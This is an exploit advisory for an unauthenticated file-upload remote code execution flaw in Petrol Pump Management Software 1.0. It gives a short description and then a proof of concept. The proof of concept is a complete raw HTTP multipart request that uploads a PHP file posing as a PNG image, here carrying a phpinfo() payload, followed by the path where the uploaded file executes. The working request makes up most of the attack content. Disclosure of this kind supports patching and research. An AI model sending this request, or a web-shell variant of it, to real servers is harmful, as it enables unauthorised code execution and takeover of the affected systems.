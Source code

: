 ```yaml
---
title: Petrol Pump Management Software 1.0 Shell Upload
published: true
---
```


- Exploit Title: Petrol pump management software - File Upload Remote Code Execution (RCE) (unauthenticated)
- Google Dork: N/A
- Application: Petrol pump management software
- Date: 20.02.2024
- Bugs: File Upload Remote Code Execution (RCE) (unauthenticated)
- Exploit Author: SoSPiro
- Vendor Homepage: https://www.sourcecodester.com/
- Software Link: https://www.sourcecodester.com/php/17180/petrol-pump-management-software-free-download.html
- Version: 1.0
- Tested on: Windows 10 64 bit Wampserver
- CVE : N/A

***

### Vulnerability Description:

Due to a security vulnerability in "fuelflow/admin/app/web_crud.php," unauthorized users can upload
files using the "POST" method. The uploaded files are stored in the "/fuelflow/assets/images" folder.
This allows malicious individuals to execute unauthorized commands on the system.


#### **Staus: HIGH-CRITICAL Vulnerability**


### Proof of Concept (PoC):

[Video](https://drive.google.com/file/d/1_jue-UhpASC_XxcUWU-QhMYDrSIehnWx/view)


- File upload Request

```
POST /zerday/fuelflow/admin/app/web_crud.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------82750242321210078514140255085
Origin: http://localhost
Connection: close
Referer: http://localhost/zer/fuelflow/admin/web.php
Cookie: PHPSESSID=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

-----------------------------82750242321210078514140255085
Content-Disposition: form-data; name="id"

1
-----------------------------82750242321210078514140255085
Content-Disposition: form-data; name="old_photo1_img"

test.png
-----------------------------82750242321210078514140255085
Content-Disposition: form-data; name="photo1"; filename="3.php"
Content-Type: image/png

<?php phpinfo();?>
-----------------------------82750242321210078514140255085
Content-Disposition: form-data; name="title"

FuelFlow lite - Developed by Mayuri K. tessss
-----------------------------82750242321210078514140255085
Content-Disposition: form-data; name="old_photos_img"

test.png
-----------------------------82750242321210078514140255085
Content-Disposition: form-data; name="photos"; filename=""
Content-Type: application/octet-stream


-----------------------------82750242321210078514140255085
Content-Disposition: form-data; name="sitekey"

test
-----------------------------82750242321210078514140255085
Content-Disposition: form-data; name="secretkey"

test
-----------------------------82750242321210078514140255085
Content-Disposition: form-data; name="update"


-----------------------------82750242321210078514140255085--
```

- Phpinfo file locaton

`/zerday/fuelflow/assets/images/65d45a6080eca.php`